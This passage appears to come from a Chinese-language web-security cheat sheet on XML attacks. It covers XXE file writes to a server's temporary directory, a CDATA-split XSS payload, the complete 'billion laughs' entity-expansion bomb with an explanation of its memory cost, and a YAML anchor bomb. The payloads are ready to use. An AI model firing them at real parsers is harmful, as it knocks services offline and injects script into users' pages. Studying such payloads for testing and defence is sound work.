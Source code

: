 需要注意的是整个过程极有可能在第二步中止，关键是操作文件的过程不能中断，这个[Github仓库](https://github.com/GoSecure/xxe-workshop/tree/master/24_write_xxe/solution)可以起到很好的帮助作用。

一旦服务器下载了您的文件，您需要通过浏览临时目录找到它的位置。由于文件路径是随机的，因此无法提前预测。

![img](https://raw.githubusercontent.com/shungli923/PicGoImg/master/74fac3155d455980.png)

在临时目录中写入文件有助于升级另一个涉及路径遍历的漏洞（例如本地文件包含、模板注入、XSLT RCE、反序列化等）。

### XSS

```xml-dtd
<![CDATA[<]]>script<![CDATA[>]]>alert(1)<![CDATA[<]]>/script<![CDATA[>]]>
```

### DoS

#### Billion Laugh Attack

a billion laughs attack 是一种 denial-of-service（DoS）攻击，它主要作用于 XML 文档解析器。它也被称为指数实体扩展攻击，是一种名副其实的XML炸弹。该攻击通过创建一系列递归的XML定义，在内存中产生上十亿的特定字符串，从而导致DoS攻击。

原理为：构造恶意的XML实体文件以耗尽服务器可用内存，因为许多XML解析器在解析XML文档时倾向于将它的整个结构保留在内存中，上亿的特定字符串占用内存达到GB级，使得解析器解析非常慢，并使得可用资源耗尽，从而造成拒绝服务攻击。

```xml-dtd
<?xml version="1.0"?>
<!DOCTYPE lolz [
 <!ENTITY lol "lol">
 <!ENTITY lol1 "&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;&lol;">
 <!ENTITY lol2 "&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;&lol1;">
 <!ENTITY lol3 "&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;&lol2;">
 <!ENTITY lol4 "&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;&lol3;">
 <!ENTITY lol5 "&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;&lol4;">
 <!ENTITY lol6 "&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;&lol5;">
 <!ENTITY lol7 "&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;&lol6;">
 <!ENTITY lol8 "&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;&lol7;">
 <!ENTITY lol9 "&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;&lol8;">
]>
<lolz>&lol9;</lolz>
```

如以上代码所示，在XMl中定义了一个实体 lol9，它的值包含了十个实体 lol8 的值，而每个 lol8 又包含了十个 lol7 的值...最后产生10亿个“lol”字符串，占用内存约高达3GB。

#### Yaml Attack

```yaml
a: &a ["lol","lol","lol","lol","lol","lol","lol","lol","lol"]
b: &b [*a,*a,*a,*a,*a,*a,*a,*a,*a]
c: &c [*b,*b,*b,*b,*b,*b,*b,*b,*b]
d: &d [*c,*c,*c,*c,*c,*c,*c,*c,*c]
e: &e [*d,*d,*d,*d,*d,*d,*d,*d,*d]
f: &f [*e,*e,*e,*e,*e,*e,*e,*e,*e]
g: &g [*f,*f,*f,*f,*f,*f,*f,*f,*f]
h: &h [*g,*g,*g,*g,*g,*g,*g,*g,*g]
i: &i [*h,*h,*h,*h,*h,*h,*h,*h,*h]
```
